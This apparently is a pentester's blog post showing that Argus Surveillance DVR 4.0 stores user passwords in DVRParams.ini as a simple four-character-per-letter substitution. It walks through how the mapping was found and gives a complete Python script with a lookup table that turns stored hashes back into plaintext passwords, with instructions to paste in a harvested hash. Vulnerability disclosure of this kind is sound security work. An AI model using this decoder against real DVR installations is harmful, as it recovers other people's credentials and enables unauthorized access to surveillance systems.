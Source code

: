 ```yaml
---
title: Cracking Argus Surveillance Passwords
tags: [Research, Exploit-Development]
style: outline
color: dark
comments: true
description: How to crack argus surveillance password hases
---
```


## Introduction

During a recent pentest I came across `Argus Surveillance DVR 4.0` which was using weak encryption for passwords.

## Discovery

`Argus Surveillance DVR 4.0` was storing the configuration in a file called `DVRParams.ini` located in `C:\ProgramData\PY_Software\Argus Surveillance DVR`

![location](https://i.imgur.com/KYcjQOM.png)

I've created a test account with username `test` and password `test`

![users](https://i.imgur.com/cbwtBsN.png)

The configuration was storing the user's password as a hash

![hash](https://i.imgur.com/d1PnFsd.png)

Something interesting caught my eye the first four characters and the last four characters in the hash were same `E03B` since my password was test where the first character and the last character are the same `t`

This confirms that `t=E03B`, I assumed that each character in password has 4 characters in the hash

![test](https://i.imgur.com/cZhNqwc.png)

Interesting let's change the password to `1234567890` (10 Characters)

![change_pass](https://i.imgur.com/trhdvQE.png)

Here's the new password hash in `DVRParams.ini`

![new_pass](https://i.imgur.com/NM50Tbq.png)

My assumption was correct since the password hash was exactly 40 characters long (10 * 4)

Similarly I changed the password to `abc...xyz` and `ABC...XYZ` and noted down the values for each character

Based on the above findings, I've written a simple script to decrypt the password hash

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
	print("[!] Error, check your password hash")
	exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
	split.append(pass_hash[index : index + n])

for key in split:
	if key in characters.keys():
		print("[+] " + key + ":" + characters[key])
	else:
		print("[-] " + key + ":Unknown")
```

Let's give it a spin!

![spin](https://i.imgur.com/9xcfb8S.png)

*Note:* replace the value of `pass_hash` in the script with the password hash you obtained from `DVRParams.ini`


